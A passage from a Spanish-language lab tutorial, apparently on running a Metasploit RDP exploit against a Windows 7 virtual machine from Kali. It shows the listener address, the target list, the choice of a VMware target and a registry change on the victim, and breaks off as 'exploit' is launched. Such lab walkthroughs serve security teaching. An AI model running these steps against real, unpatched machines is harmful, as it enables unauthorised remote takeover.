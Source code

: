 ```shell
set LHOST 192.168.16.128
```

Ahora tendremos que establecer el `target` para que no lo haga de forma automatica, ya que podria dar fallo:

```shell
show targets
```

Info:

```
Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic targeting via fingerprinting
    1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
    2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
    3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
    4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
    5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
    6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
    7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)
    8   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - QEMU/KVM)
```

En este caso estan estos, por lo que nosotros elegiremos el numero `5` el llamado `Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)` ya que es el mas cercano a donde estamos realizando el ataque, por que yo estoy en `VMware 17 Pro` por lo que elegiremos el mas cercano que en este caso seria el `VMware 15.1`, para los de `Virtual Box` seria el numero `2` y para los que esten en un `host` de un `hypervisor` de tipo `1` seria el numero `1`.

```shell
set target 5
```

Pero antes de lanzar el `exploit` si ponemos `info` nos mostrara la descripcion del `exploit` en la que nos dice en una parte que es necesario que una cierta clave de registro este en `0` en la maquina `windows` por lo que nos iremos a la maquina `windows` para dejarlo en `0`, esto se podria hacer aprovechando otra vulnerabilidad y cambiandolo desde terminal, pero para hacerlo mas sencillo lo haremos de esta forma.

En la maquina `windows` pulsaremos `Windows + R` y escribiremos `regedit` + `ENTER`, esto nos llevara a una ventana del `editor de regsitros`.

`KEY_LOCAL_MACHINE` -> `SYSTEM` -> `CurrentControlSet` -> `Control` -> `Terminal Server` -> `WinStations` -> `RDP-Tcp`

Dentro de este fichero cambiamos el archivo de `fDisableCam` dandole doble click y lo establecemos en `0` -> `Ok` -> y con esto ya estaria modificado la clave de registro que teniamos que poner en `0`.

Y ahora volviendo a `kali` intentaremos explotar la maquina poniendo `exploit`.
